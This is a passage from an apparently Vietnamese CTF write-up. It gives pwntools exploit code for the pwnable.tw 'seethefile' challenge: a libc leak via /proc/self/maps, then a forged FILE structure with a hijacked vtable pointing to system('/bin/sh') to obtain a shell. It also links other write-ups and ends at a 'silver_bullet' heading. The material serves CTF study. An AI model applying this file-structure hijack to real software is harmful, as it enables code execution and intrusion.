 ```
    p.sendlineafter(b'choice :',b'3')
open(b'/proc/self/maps')
read()
read()
write()
p.recvline()
leak = int(p.recv(8),16)
print(hex(leak))
libc.address = leak


fp = FileStructure()
fp.flags =  u32(b'/bin')
fp._IO_read_ptr = u32(b'/sh\x00')
fp.vtable = 0x804b284 - 0x44
fp._lock =  0x804bf00


payload = b'a'*0x20
payload += p32(0x804b290)
payload += p32(libc.sym.system)
payload += p32(0)
payload += p32(0)
payload += bytes(fp)
input()
p.sendlineafter(b' choice :',b'5')
p.sendlineafter(b'name :',payload)
#file = FileStructure()#
#file.flags = u32(b'/bin')
#file._IO_read_ptr = u32(b'/sh\x00')
#file._lock = 0x804ba00
#file.vtable = 0x804b284 - 0x44
#payload = flat(
#    b'A'*0x20,
#    0x804b290, libc.sym['system'], 0, 0,
#    bytes(file)
#    )
#p.sendlineafter(b'choice :', b'5')
#p.sendlineafter(b'name :', payload)
#print(file)
p.interactive()



p.interactive()
```

1 cách khác leak libc : https://bluecyber.hashnode.dev/pwnabletw-seethefile
https://pwnable.tw/writeup/9/35917

## silver_bullet 
